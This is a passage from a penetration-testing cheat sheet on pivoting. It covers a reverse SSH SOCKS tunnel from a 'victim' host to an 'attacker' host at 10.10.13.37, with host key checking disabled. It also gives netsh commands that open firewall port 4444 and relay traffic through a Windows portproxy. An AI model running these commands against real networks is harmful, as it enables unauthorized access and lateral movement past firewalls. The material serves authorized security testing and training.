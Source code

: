 Add `dummy_key.pub` contents to `authorized_keys` on Attacker with the following options:

```
snovvcrash@attacker:~$ vi ~/.ssh/authorized_keys
from="10.10.13.38",command="echo 'Only port forwarding is allowed'",no-agent-forwarding,no-X11-forwarding,no-pty <DUMMY_KEY_PUB>
```

Connect to Attacker's SSH server from Victim:

```
alice@victim:~$ ssh -fN -R 1080 -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null -i dummy_key snovvcrash@10.10.13.37
```




## netsh



### Rules

Allow inbound traffic flow on port 4444/TCP:

```
Cmd > netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444
Cmd > netsh advfirewall firewall delete rule name="Allow 4444" protocol=TCP localport=4444
```



### Relay

Add a relay between two machines (need to be local admin).

Make any traffic hitting port **8443** on **0.0.0.0** to be redirected to **10.10.13.37** on port **443**:

```
Cmd > netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8443 connectaddress=10.10.13.37 connectport=443 protocol=tcp
```

Show active relays:

```
Cmd > netsh interface portproxy show v4tov4
```

Remove a relay:

```
Cmd > netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=8443
```




## L2 VPN over SSH

